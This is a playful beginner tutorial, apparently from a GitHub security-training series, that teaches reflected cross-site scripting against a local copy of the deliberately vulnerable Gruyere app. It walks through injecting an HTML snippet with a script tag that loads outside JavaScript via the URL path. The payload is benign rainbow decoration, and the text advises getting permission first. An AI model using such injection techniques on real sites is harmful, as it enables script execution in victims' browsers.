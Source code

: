 # Sparkle Security Mission 1: Reflected Cornification

Agent Sparkle, your mission, should you choose to accept it, is to bring
more glorious rainbows to the Gruyere web application.  Project Rainbow
cares deeply about adding colour to the world.

## Tools for this mission

1. Your own local Gruyere installation.  See Mission 0 if you have not got this
set up yet.

2. Cornify.com: http://www.cornify.com/  This is a website with code to help you add sparkles and rainbows to any web page.  Project Rainbow approves of their mission.

3. (Optional) Gruyere instructions part 2: https://google-gruyere.appspot.com/part2#2__cross_site_scripting  This mission is based on the section called "Reflected XSS"

## Reflected XSS for great rainbows

XSS stands for "Cross Site Scripting" which is a type of web vulnerability that
will serve you well, Agent Sparkle.  This vulnerability allows a clever agent
to insert her own code into a web page.  This code can modify the page in
ways that its creators never imagined, which makes it great for adding more
rainbows.

"Reflected" XSS means that the code you stealthily inject into your web page
isn't saved, so it won't affect every vistor, but you can cleverly change the
link in order to make it affect people who visit the link you choose.

Don't be fooled into believing that reflected XSS isn't a powerful tool, Agent Sparkle!  Clever agents can often convince people to visit links, sometimes
without them even clicking anything!  You'll learn more about those skills
later, but let's start by making some rainbows!

## Rainbow payload

Agent Sparkle, for this mission we want you to use the cornify code as your payload.  A "payload" according to the Merriam-Webster is...

> "the load carried by a vehicle exclusive of what is necessary for its operation; especially :  the load carried by an aircraft or spacecraft consisting of things (as passengers or instruments) necessary to the purpose of the flight"

So how does this make sense in the context of your mission?  Payload is also
used in security to refer to the code that does the interesting part of your
mission.  In our case, the interesting part of the mission is all about adding
rainbows!

We're using the cornify code as our payload, because it's already designed
to help you add rainbows.  You can write your own code for this too, and you will in later missions, but this is mission 1 and Project Rainbow wants you to have some sparkling fun.

![Cornifycorn](http://www.cornify.com/assets/cornifycorn.gif "Cornifycorn")

The code that cornify uses looks like this:

```
<a href="http://www.cornify.com" onclick="cornify_add();return false;"><img src="http://www.cornify.com/assets/cornify.gif" width="61" height="16" border="0" alt="Cornify" /></a><script type="text/javascript" src="http://www.cornify.com/js/cornify.js"></script>
```

It's HTML code that inserts a button that will let you add rainbows!

## Find a hole

Agent Sparkle, if you want a big challenge, you can work on some reconnaissance here: start the gruyere web application and see if you can figure out a place where it's vulnerable to code injection.  Stop reading the rest of this section and see if you want to find it yourself!

Probably, though, you're doing mission one and you'd like a bit more help than just "there's a hole here."  So let's talk about how to find this one!


When you start gruyere, it'll give you your magic number. See [Mission 0](https://github.com/terriko/sparklesecurity/blob/master/Mission0.md):

>      Gruyere started...
>          http://127.0.0.1:8008/
>          http://127.0.0.1:8008/1414730337772092309/

The number you get will be different and specific to your gruyere server.

So go to the url with the number in it (or go to http://127.0.0.1:8008/ and it'll add the number on the end for you) and you should get your gruyere server.  All good.

What happens if you add random things onto the end of the url?

Try putting "hi" at the end of that url, and you'll notice that it shows up in
the web page.  If it did not work for you, make sure Safari or your browser of 
choice did not change the url. It must start with http:// not www. 

This is when you should be excited, Agent Sparkle! If the web
page displays something you added into it, there's a chance that it might be
possible to inject a payload.

![Hi in your webpage](Mission1-hi.png "Hi in your webpage")



Think about this a bit: every blog post, every comment field, many search
boxes... the world could be your oyster, Agent Sparkle!  There are a lot of
places on the web that could be vulnerable.  Remember that it's best to get
permission before you experiment on anyone else's system, though.

Anyhow, back to your copy of Gruyere, which you're totally allowed to exploit.
So, if we can put in "hi" to the page, what happens if we put in other things? Play around a bit and see what works!

Once you're done experimenting, it's time to bring out your rainbow payload.  You're going to need to cut and paste the whole thing into the url bar in place of "hi" and then hit enter.  What happens?

Here is the code again (this is a long line so scroll sideways and copy it all):

```
<a href="http://www.cornify.com" onclick="cornify_add();return false;"><img src="http://www.cornify.com/assets/cornify.gif" width="61" height="16" border="0" alt="Cornify" /></a><script type="text/javascript" src="http://www.cornify.com/js/cornify.js"></script>
```

If it did not work for you, make sure Safari or your browser of 
choice did not change the url. It must start with http:// not wwww. 

Ideally, Agent Sparkle, you'll see the "Invalid request: /" and then you'll see the cornify button.  (You might need to turn on JavaScript if you have it turned off.)

## And now, the sparkles!

Click that cornify button a few times and watch the rainbows and sparkles decorate the gruyere page!

![Cornified Gruyere](Mission1-cornified.png "Cornified Gruyere")


### Go on to [Mission 2](https://github.com/terriko/sparklesecurity/blob/master/Mission2.md)



